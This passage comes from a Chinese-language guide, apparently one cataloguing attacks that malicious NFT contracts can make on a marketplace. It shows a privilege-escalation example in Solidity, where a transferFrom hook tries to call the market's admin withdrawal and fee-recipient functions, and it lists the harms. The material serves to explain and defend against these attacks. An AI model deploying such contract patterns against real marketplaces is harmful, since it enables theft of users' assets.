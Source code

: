 ```solidity
            // 比如窃取资金、破坏状态等
        }
    }
}
```

**危害：**
- 延迟攻击，难以发现
- 在特定时机造成最大破坏
- 增加攻击的隐蔽性
- 难以预防和检测

### 🚨 **9. 权限提升攻击（Privilege Escalation）**

**攻击原理：**
恶意合约尝试调用只有管理员才能调用的函数。

**恶意合约示例：**
```solidity
contract PrivilegeEscalationNFT {
    mapping(uint256 => address) public owners;
    
    function ownerOf(uint256 tokenId) external view returns (address) {
        return owners[tokenId];
    }
    
    function transferFrom(address from, address to, uint256 tokenId) external {
        owners[tokenId] = to;
        
        // 尝试调用管理员函数
        try IMarket(msg.sender).emergencyWithdrawNFT(tokenId, address(this)) {
            // 成功提升权限
        } catch {
            // 攻击失败
        }
        
        // 或者尝试修改重要参数
        try IMarket(msg.sender).setFeeRecipient(address(this)) {
            // 成功修改费用接收者
        } catch {
            // 攻击失败
        }
    }
}
```

**危害：**
- 获得管理员权限
- 修改关键参数
- 窃取其他用户资产
- 完全控制平台

### 🚨 **10. 跨合约攻击（Cross-Contract Attack）**
